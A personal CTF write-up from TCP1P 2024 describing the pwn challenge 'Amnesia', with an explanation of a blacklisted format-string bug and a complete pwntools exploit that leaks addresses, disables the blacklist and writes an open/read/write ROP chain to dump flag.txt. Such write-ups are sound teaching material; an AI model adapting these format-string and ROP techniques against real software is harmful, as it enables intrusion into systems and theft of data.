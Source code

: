 ```yaml
---
title: TCP1P 2024 - Blind
date: 2024-10-12
categories: [CTF, writeup]
tags: [ctf, writeup, TCP1P]     # TAG names should always be lowercase
---
```


<center><h1>TCP1P 2024 - My PWN Write-Ups</h1></center>

This weekend I have been participating solo in the TCP1P CTF 2024. I really enjoyed this CTF. I ended up solving some pretty good challenges and finished in 23rd place. As always, I focused on PWN, and here are my Write-Ups for the best challenges I solved.  
<img src="https://raw.githubusercontent.com/elchals/elchals.github.io/main/_posts/2024-10-13_Imges/Puntuacion.png" alt="Puntuacion">

## Amnesia
<img src="https://raw.githubusercontent.com/elchals/elchals.github.io/blob/main/_posts/2024-10-13_Imges/amnesia.png" alt="Amnesia">

- **Category:** Pwn.  
- **Points:** 221
- **Solves:** 11  
- **Author:** itoid  

## Description
Amnesia is the typical challenge with a vulnerable format string, but with certain limitations to make our life a bit harder. The program has a first format string that accepts up to 188 characters, after which there is a loop that runs infinitely until we decide to terminate the program by writing **I remember everything!**. Inside that loop, there is another vulnerable format string, but it only accepts up to 32 characters. The format strings are checked against a blacklist that prohibits the use of the characters $, p, and x. The file has all the typical protections enabled and the syscalls **execve** and **execveat** are prohibited by seccomp.   
```sh
➜  Amnesia checksec amnesia
[*] '/home/elchals/CTFs/Tcp1p/Amnesia/amnesia'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
```  

I take advantage of the first format string to get all the necessary leaks: Text base, Libc base, and Stack. Since p and $ are prohibited, I have to use %c and %ld.  
With the following format string, I am going to overwrite the blacklist, because since I now only have 32 characters in the format string and can't use $, it becomes impossible to do anything more useful. In the first iteration, I overwrite the $ with any number.  
```py
payload = b'%c%c%d%c%d%c%c%c%c%c%hhn'.ljust(24, b'\x41')
payload += p64(format)
```
And in the second iteration, since I can now use $, I place a NULL byte to disable the blacklist.  
```py
payload = b'%256c%11$hhn'.ljust(24, b'\x41')
payload += p64(format)
```
From now on, since we can use the $, I write a ROP chain starting from the return address of the function to open the flag.txt, read, and write its content. I write it character by character since 32 bytes aren't enough for anything more.  
Finally, by writing **I remember everything!**, I trigger the termination of the program and the execution of the ROP chain.  

## Code
```py
#!/bin/python3
from pwn import *

context.log_level = 'INFO'
context.terminal = ['remotinator', 'vsplit', '-x']
context.arch = 'amd64'

######################################################################################

process_name = './amnesia_patched'
elf = context.binary = ELF(process_name)
libc = ELF('./libc.so.6')

HOST = "ctf.tcp1p.team"
PORT = 20037

######################################################################################

gdb_script = f'''
    breakrva 0x16d5
    continue
    '''

######################################################################################

def connect():
    if args.REMOTE:
        print(f"[*] Connecting to {HOST} : {PORT}")
        p = remote(HOST, PORT)
    elif args.GDB:
        print(f'[*] Debugging {elf.path}.')
        p = gdb.debug([elf.path], gdbscript=gdb_script)
    else:
        print(f'[*] Executing {elf.path}.')
        p = process([elf.path], aslr=False)
    return p

## Write one byte.
def change_byte(addr, b):
    if b == 0:
        b = 0x100
    payload = f'%{b}c%11$hhn'.encode().ljust(24, b'\x41')
    payload += p64(addr)
    print(payload)
    p.sendlineafter(b'remember?', payload)

######################################################################################

p = connect()

## Leaking things
payload  = b'%c' * 2
payload += b'||%ld||'
payload += b'%c'
payload += b'||%ld||'
payload += b'%c' * 35
payload += b'%||%ld||'

p.sendlineafter(b'you?', payload)
p.recvuntil(b'||')
libc.address = int(p.recvuntil(b'||')[:-2]) - (0x70fe15514887 - 0x70fe15400000)
print("[i] Libc Address:", hex(libc.address))

p.recvuntil(b'||')
stack = int(p.recvuntil(b'||')[:-2])
print("[i] Stack:", hex(stack))

rip = stack + (0x7ffcb0edf088 - 0x7ffcb0edea30) 
print("[i] RIP:", hex(rip))

p.recvuntil(b'||')
elf.address = int(p.recvuntil(b'||')[:-2]) - (0x5b435bdd36f7 - 0x5b435bdd2000)
print("[i] .text:", hex(elf.address))

## Overwriting Blacklist
format = elf.address + (0x65066ca92010 - 0x65066ca8e000)    # Blacklist address

payload = b'%c%c%d%c%d%c%c%c%c%c%hhn'.ljust(24, b'\x41')
payload += p64(format)
print(payload)
p.sendlineafter(b'remember?', payload)

payload = b'%256c%11$hhn'.ljust(24, b'\x41')
payload += p64(format)
print(payload)
p.sendlineafter(b'remember?', payload)

## Writing flag.txt to bss section
bss = elf.address + (0x63e12b96f000 - 0x63e12b96b000) + 0x900
print("[i] BSS:", hex(bss))

flag = b'flag.txt\x00'
idx = 0
for b in flag:
    change_byte(bss + idx, b)
    idx += 1

## ROP
context.arch = 'amd64'
rop_libc = ROP(libc)

pop_rsi  = p64(rop_libc.find_gadget(['pop rsi', 'ret'])[0])
pop_rdi  = p64(rop_libc.find_gadget(['pop rdi', 'ret'])[0])
ret      = p64(rop_libc.find_gadget(['ret'])[0])
pop_rdx_rbx  = p64(libc.address + 0x00000000000904a9) # pop rdx ; pop rbx ; ret
pop_rax  = p64(rop_libc.find_gadget(['pop rax', 'ret'])[0])
push_rax = p64(libc.address + 0x0000000000041563) # push rax ; ret
mov_edi_eax = p64(libc.address + 0x000000000012684c) # mov edi, eax ; call rdx

payload  = pop_rdi
payload += p64(bss)
payload += pop_rsi
payload += p64(0)
payload += p64(libc.sym.open)

payload += pop_rdx_rbx
payload += pop_rsi * 2
payload += mov_edi_eax
payload += pop_rsi
payload += p64(bss)
payload += pop_rdx_rbx
payload += p64(0x100) * 2
payload += p64(libc.sym.read)

payload += pop_rdi
payload += p64(1)
payload += pop_rsi
payload += p64(bss)
payload += pop_rdx_rbx
payload += p64(0x100) * 2
payload += p64(libc.sym.write)

idx = 0
for b in payload:
    change_byte(rip + idx, b)
    idx += 1

p.sendlineafter(b'remember?', b'I remember everything!')

######################################################################################

p.interactive()
```
